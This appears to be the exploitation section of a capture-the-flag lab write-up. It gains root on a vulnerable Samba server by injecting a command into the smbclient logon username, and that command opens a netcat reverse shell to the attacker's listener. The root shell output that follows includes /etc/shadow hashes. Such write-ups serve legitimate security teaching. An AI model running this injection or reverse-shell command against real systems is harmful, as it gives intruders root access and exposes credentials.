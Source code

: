 # Exploitation

Add a listener on attack machine.

```bash
nc -nlvp 443
```

Log into the smb client.
nohup run a command immune to hangups, with output to a non-tty

```bash
smbclient //10.129.211.206/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.75 443`"'
```

The shell connects back to our attack machine and we have root! In this scenario, we didn’t need to escalate privileges.

```bash
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.211.206.
Ncat: Connection from 10.129.211.206:59898.
id && /sbin/ifconfig && uname -a && cat /etc/shadow && ls -lah /root
uid=0(root) gid=0(root)
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:f3:d7  
          inet addr:10.129.211.206  Bcast:10.129.255.255  Mask:255.255.0.0
          inet6 addr: dead:beef::250:56ff:feb9:f3d7/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:f3d7/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:144587 errors:0 dropped:0 overruns:0 frame:0
          TX packets:315 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:8813626 (8.4 MB)  TX bytes:45512 (44.4 KB)
          Interrupt:19 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:811 errors:0 dropped:0 overruns:0 frame:0
          TX packets:811 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:375285 (366.4 KB)  TX bytes:375285 (366.4 KB)

Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0:17239:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$NsRwcGHl$euHtoVjd59CxMcIasiTw/.:17239:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
```